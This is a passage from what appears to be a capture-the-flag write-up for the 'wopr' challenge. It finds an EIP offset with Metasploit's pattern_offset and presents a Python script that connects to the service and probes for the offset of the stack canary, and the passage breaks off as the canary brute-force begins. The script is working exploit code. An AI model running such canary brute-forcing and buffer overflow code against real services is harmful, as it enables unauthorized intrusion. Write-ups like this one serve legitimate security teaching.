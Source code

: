 ![wopr-ssp.png](/assets/img/wopr/wopr-ssp.png)

Now we can enter this address into pattern_offset using **ruby /usr/share/metasploitframework/tools/pattern_offset.rb 0x33624132**, we see that EIP's offset is 38.

![wopr-pattern-offset.png](/assets/img/wopr/wopr-pattern-offset.png)

Armed with this information we can write our code to brute force the canary. I present to
you get_canary.py

```python
#!/usr/bin/env python
import socket, time, sys

#declare globals
global target
global port
global eipoffset
global canarysize
canaryOffset = 0
canaryValue = ""

#this function sends a request to the wopr service (crudely) and receives the response
def sendRequest(target, port, payload):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	try:
				s.connect((target, port))
				done = False
				while done == False:
					response=s.recv(1024)
					if ">" in response:
						s.send(payload)
						result = ""
						result =  s.recv(1024)
						result = result.strip() +  s.recv(1024)
						result = result.strip()
						return result
	except Exception, err:
				print Exception, err

#find canary offset by trying one A at a time until we hit the stack smash protection
def getCanaryOffset():
	for i in range(1,eipoffset):
			payload = "A"*i
			result = sendRequest(target,port,payload)
			if "bye" not in result:
				#we remove one from the result because the integer
				#is the first time hit the SSP
				offset=i-1 
				print "[+] Canary found at offset: " + str(offset)
				return offset
	
				
def bruteForceCanary(offset, length):
	canary = "" 
	#use the specified canary length  
```